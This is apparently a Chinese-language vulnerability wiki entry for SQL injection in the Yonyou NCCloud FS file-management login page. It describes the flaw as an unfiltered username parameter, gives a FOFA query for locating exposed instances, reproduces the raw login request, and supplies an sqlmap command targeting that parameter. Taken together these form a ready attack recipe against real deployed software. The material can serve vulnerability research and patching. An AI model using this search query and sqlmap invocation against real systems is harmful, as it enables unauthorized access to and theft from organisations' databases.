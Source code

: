 # 用友 NCCloud FS文件管理SQL注入

## 漏洞描述

用友 NCCloud FS文件管理登录页面对用户名参数没有过滤，存在SQL注入

## 漏洞影响

> [!NOTE]
>
> 用友 NCCloud

## FOFA

> [!NOTE]
>
> "NCCloud"

## 漏洞描述

登录页面如下

![](http://wikioss.peiqi.tech/vuln/yongyou-13.png)

在应用中存在文件服务器管理登录页面

```
http://xxx.xxx.xxx.xxx/fs/
```

![](http://wikioss.peiqi.tech/vuln/yongyou-14.png)

登录请求包如下

```
GET /fs/console?username=123&password=%2F7Go4Iv2Xqlml0WjkQvrvzX%2FgBopF8XnfWPUk69fZs0%3D HTTP/1.1
Host: xxx.xxx.xxx.xxx
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/90.0.4430.85 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9,en-US;q=0.8,en;q=0.7,zh-TW;q=0.6
Cookie: JSESSIONID=2CF7A25EE7F77A064A9DA55456B6994D.server; JSESSIONID=0F83D6A0F3D65B8CD4C26DFEE4FCBC3C.server
Connection: close
```

使用Sqlmap对**username参数** 进行SQL注入

```
sqlmap -r sql.txt -p username 
```

![](http://wikioss.peiqi.tech/vuln/yongyou-15.png)

